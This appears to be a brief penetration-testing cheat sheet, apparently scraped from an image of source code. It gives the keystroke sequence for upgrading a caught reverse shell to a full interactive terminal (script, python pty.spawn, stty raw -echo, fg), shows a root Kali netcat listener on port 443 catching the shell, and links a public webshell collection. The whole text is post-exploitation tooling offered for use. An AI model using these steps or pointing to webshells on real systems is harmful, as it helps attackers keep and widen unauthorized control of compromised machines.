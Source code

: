 SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm

python -c 'import pty;pty.spawn("bash")'
Ctrl-Z
[1]+  Stopped                 nc -lnvp 443
root@kali# stty raw -echo
root@kali# nc -lnvp 443


#webshell list
https://github.com/tennc/webshell
